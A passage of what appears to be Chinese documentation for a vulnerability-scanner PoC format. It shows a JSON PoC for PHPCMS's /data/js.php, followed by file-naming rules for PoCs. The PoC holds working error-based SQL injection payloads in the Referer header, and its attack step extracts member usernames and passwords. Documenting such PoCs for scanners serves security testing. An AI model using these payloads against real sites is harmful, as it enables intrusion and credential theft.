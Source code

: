 ```
                "step": "0",
                "method": "get",
                "vulPath": "/data/js.php",
                "params": "id=1",
                "necessary": "",
                "headers": {"Referer":"1', (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),char(45,45,45),(SELECT md5(1)))a from information_schema.tables group by a)b), '0')#"},
                "status": "200",
                "match": {
                    "regex": ["c4ca4238a0b923820dcc509a6f75849b"],
                    "time":""
                }
            }
        ],
        "attack": [
            {
                "step": "0",
                "method": "get",
                "vulPath": "/data/js.php",
                "params": "id=1",
                "necessary": "",
                "headers": {"Referer":"1', (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),char(45,45),(SELECT concat(username,char(45,45,45),password,char(45,45)) from phpcms_member limit 1))a from information_schema.tables group by a)b), '0')#"},
                "status":"200",
                "match":{
                    "regex": ["Duplicate"],
                    "time": ""
                },
                "result":{
                    "AdminInfo":{
                        "Username":"<regex>--(.+)---",
                        "Password": "<regex>---(.+)--"
                    }
                }
            }
        ]
    }
}

```
#### PoC 规范说明<a id="pocstandard"></a>

#### PoC 命名规范<a id="named"></a>
 PoC 命名分成 3 个部分组成漏洞应用名_版本号_漏洞类型名称 然后把文件名中的所有字母改写为小写，所有的符号改成_。文件名不能有特殊字符和大写字母。 规范的文件名示例
```
    _1847_seeyon_3_1_login_info_disclosure.py
```


#### 漏洞类型规范<a id="category"><a>
